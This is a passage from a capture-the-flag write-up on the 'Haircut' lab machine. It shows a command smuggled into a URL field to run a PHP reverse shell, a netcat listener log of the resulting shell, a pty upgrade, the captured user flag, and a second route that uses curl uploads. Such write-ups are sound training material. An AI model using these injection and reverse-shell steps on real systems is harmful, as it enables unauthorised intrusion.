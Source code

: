 It worked. Let's start a netcat listener, and then use the command substitution to execute the PHP script as follows:

> http://localhost/test.html $(php -f /dev/shm/rshell.php)

In the listener window, we get a shell as the "www-data" user. We can upgrade the shell, and then grab the user flag.

```
└─$ nc -nvlp 8888
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.24.
Ncat: Connection from 10.10.10.24:59902.
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:25:55 up  2:10,  0 users,  load average: 0.03, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@haircut:/$ pwd
pwd
/
www-data@haircut:/$ cd home
cd home
www-data@haircut:/home$ ls
ls
maria
www-data@haircut:/home$ cd maria
cd maria
www-data@haircut:/home/maria$ ls
ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
www-data@haircut:/home/maria$ cat user.txt
cat user.txt
cc1b1119ff42eebb3fc30036c871d35f
www-data@haircut:/home/maria$ 

```

## Gaining Access Method 2- Curl & browser

Once we confirm that we can use curl to grab files off our attacker box, we need a place to write them. The gobuster scan we did revealed that there is a /uploads directory, but when we visit the page [http://10.10.10.24/uploads/](http://10.10.10.24/uploads/) we get a "403 Forbidden" error. However, it's reasonable to assume that this would be an accessible location for storing uploaded files.

We need to make a small leap here, because, if we look at the page source for the home page, we see a link to the image that is being loaded on the page at [http://10.10.10.24/bounce.jpg](http://10.10.10.24/bounce.jpg). Let's see if this file is also stored in the /uploads directory, by opening the page at [http://10.10.10.24/uploads/bounce.jpg](http://10.10.10.24/uploads/bounce.jpg). This works, and is most likely just a clue from the box creators that we may be able to upload something here. This means that we wouldnt need to first write a file somewhere else and then execute it as we could simply just save it in the /uploads directory and then visit the page in our browser.
